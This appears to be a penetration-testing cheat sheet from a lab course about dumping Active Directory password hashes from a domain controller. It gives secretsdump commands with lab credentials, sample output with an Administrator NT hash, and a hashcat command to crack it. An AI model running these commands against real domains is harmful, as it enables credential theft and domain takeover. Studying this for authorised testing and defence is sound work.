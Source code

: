 -- -
The `NDTS.dit` file is the AD database file that holds the data for Users, Groups, Security descriptors, and password hashes for all the users in the domain. Keys of the kingdom, you own this you own the domain.
#### Secretsdump
```bash
# secretsdump.py or impacket-secretsdump, it's the same command
secretsdump.py <domain>/<da user>:'<da password>'@<dc ip> -just-dc-ntlm
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm
``` 

Should spit out something like:
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
```

Take out the NT hash, which is the last hash after colon:
```
920ae267e048417fcfe00f49ecbd4b33
```
Then Crack:
```bash
hashcat -m 1000 <hashfile> <wordlist>
```